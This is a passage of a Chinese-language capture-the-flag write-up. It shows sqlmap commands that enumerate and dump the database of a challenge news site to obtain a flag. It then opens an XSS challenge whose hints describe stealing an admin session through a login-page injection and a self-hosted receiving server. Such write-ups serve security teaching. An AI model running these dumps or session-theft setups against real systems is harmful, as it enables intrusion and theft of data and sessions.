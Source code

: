 其他有關 SQL injection 的 Payload 可以參考
https://portswigger.net/web-security/sql-injection/cheat-sheet

<br><br>

當然可以用純手工的方式慢慢戳，但利用 `sqlmap` 工具更快進行上述這般的 SQL injection 拿 Flag，流程上大致相同。

> Find Database name
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 --dbs
```
![ ](./pic/1-1.png)

> Find Table name
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb --tables
```
![ ](./pic/1-2.png)

> Find column type
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb -T FLAGS --columns
```
![ ](./pic/1-3.png)

> Dump FLAGS
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb -T FLAGS --dump
```
![ ](./pic/1-4.png)


或是，可以用更暴力的方式直接 **DUMP** Flag。
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 --dump
```
![ ](./pic/1-5.png)



<br>

## error messages (220 points)

### Description

說笑話給 admin 拿 session 

https://message.macacahub.tw/

> hint: 政府網站最喜歡用的帳號之一 `user`

由於解題人數不甚樂觀，助教額外加了其他 Hint 
> bonus 1: 在登入頁面找 XSS 注入點

> bonus 2: XAMPP快速架站 + 記得要用public IP (或是ngrok穿隧)
